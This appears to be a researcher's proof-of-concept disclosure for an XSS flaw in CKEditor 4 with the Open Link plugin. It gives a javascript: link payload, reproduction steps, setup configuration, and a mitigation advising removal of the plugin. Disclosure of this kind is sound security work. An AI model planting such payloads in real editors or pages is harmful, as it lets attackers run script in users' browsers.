


# Proof of Concept: Exploiting XSS Flaw in CKEditor 4

## Vulnerability Overview

This Proof of Concept (POC) demonstrates an XSS vulnerability discovered by me recently in all the CKEditor 4 versions when the Open Link plugin is enabled. The flaw allows JavaScript execution through crafted links within the editor, which the library fails to sanitize. This flaw can be exploited inside the text area only when the Open Link plugin is installed.

## Prerequisites

1. **CKEditor Version**: 4.\*.\*
2. **Open Link Plugin**: https://ckeditor.com/cke4/addon/openlink

## Reproduction Steps

This vulnerability can be tested from the pre-configured CKEditor instance present [here](https://ckeditor.com/cke4/addon/openlink).

1. **Insert Payload**:
   - Open the CKEditor instance and click on the "Source" icon.
   - Insert the following payload in the text area:

     ```html
     <a href="javascript:alert('XSS Found')">XSS</a>
     ```

   

2. **Switch to WYSIWYG Mode**:
   - Click on the "Source" icon again to switch back to the WYSIWYG mode.
   - Observe that the hyperlink becomes clickable inside the editor.

   

3. **Trigger XSS**:
   - Click on the hyperlink within the editor.
   - Observe that the XSS payload is triggered, resulting in an alert box in a new tab.

   

## Setup Instructions

You can set up your own local instance to test this vulnerability by following the below steps.

1. **Download CKEditor 4**:
   - Download the Full-Package Open-Source edition of CKEditor 4.

   

2. **Install Open Link Plugin**:
   - Download the Open Link plugin from [here](https://ckeditor.com/cke4/addon/openlink).
   - Extract and place the contents into the `ckeditor/plugins/openlink` directory.

   

3. **Update Configuration to Include OpenLink plugin**:
   - Modify the `config.js` file of CKEditor by appending the the following lines to the end:

   ```javascript
   config.extraPlugins = 'openlink';
   config.linkShowTargetTab = false; // Hide link target tab
   config.openlink_modifier = 0; // No modifier for opening links
   config.openlink_enableReadOnly = true; // Allow links to open in read-only mode
   ```

   - Example `config.js`:

   ```javascript
   CKEDITOR.editorConfig = function( config ) {
       // Define changes to default configuration here.
       config.extraPlugins = 'openlink';
       config.linkShowTargetTab = false;
       config.openlink_modifier = 0;
       config.openlink_enableReadOnly = true;
   };
   ```

4. **Include CKEditor in HTML**:
   - Ensure the CKEditor library is included in your HTML file.

   ```html
   <!DOCTYPE html>
   <html>
   <head>
       <script src="path/to/ckeditor/ckeditor.js"></script>
   </head>
   <body>
       <textarea name="editor1" id="editor1"></textarea>
       <script>
           CKEDITOR.replace('editor1');
       </script>
   </body>
   </html>
   ```

   

## Conclusion

This POC demonstrates the exploitation of an XSS vulnerability in CKEditor 4.\*.\* with the Open Link plugin enabled. The flaw allows arbitrary JavaScript execution through specially crafted links, posing a significant security risk. 

## Advisory

The CKEditor team won't be supporing on this issue or fixing this issue as this issue is being introduced by including a 3rd-Part library, Open Link, which is not being maintained by them. The workaround I would suggest to mitigate/prevent this flaw is to refrain from using the Open Link plugin in your application or disable if it is being used by your application.

## Additional Notes

Note that if you want to display content from the editor elsewhere, [you should always properly filter it](https://ckeditor.com/docs/ckeditor4/latest/guide/dev_best_practices.html#filter-content-server-side).

As for the **onclick** attribute on links, it can be disallowed by the `config.disallowedContent` configuration option:
 
```javascript
config.disallowedContent = 'a[onclick]';
```

